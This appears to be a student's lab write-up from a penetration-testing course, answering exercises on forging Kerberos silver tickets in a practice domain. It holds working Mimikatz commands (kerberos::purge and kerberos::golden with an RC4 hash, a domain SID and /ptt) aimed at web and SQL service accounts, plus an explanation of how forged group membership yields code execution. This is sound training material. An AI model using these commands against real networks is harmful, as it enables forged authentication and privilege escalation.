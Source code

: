 ### 21.4.3.1 Exercises
#### 1. Create and inject a silver ticket for the iis_service account.

1. Obtain Security Identifier for the Domain using the SID of the current user:

   ```powershell
   whoami /user
   ```

   ![image-20200729144210942](.21.4.3.1.assets/image-20200729144210942.png)
   The Domain SID is extracted by dropping the final section of the User SID:

   > User SID =       S-1-5-21-4038953314-3014849035-1274281563-1103
   > Domain SID = S-1-5-21-4038953314-3014849035-1274281563

2. Use Mimikatz to purge any existing Kerberos tickets and verify the purge

   ```powershell
   kerberos::purge
   kerberos::list
   ```

3. Craft the silver ticket and load it into memory using the previously obtained hash for iss_service and the SPN to get the FQDN and Service type.

   ```powershell
   kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
   ```

   ![image-20200729144639054](.21.4.3.1.assets/image-20200729144639054.png)

#### 2. How can creating a silver ticket with group membership in the Domain Admins group for a SQL service provide a way to gain arbitrary code execution on the associated server?

Every action taken through the service as that user with the silver ticket loaded would be performed with elevated privileges because the service won't bother to verify if the user actually is a member of that group, so it would be trivial to get a prompt or execute any arbitrary code.

#### 3. Create a silver ticket for the SQL service account.

1. Used the same method as above, substituting the previously obtained hash for sql_service and the SPN to get the FQDN and Service type.

   ```powershell
   kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpSqlServer.corp.com /service:MSSQLSvc /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
   ```

   ![image-20200729145406723](.21.4.3.1.assets/image-20200729145406723.png)

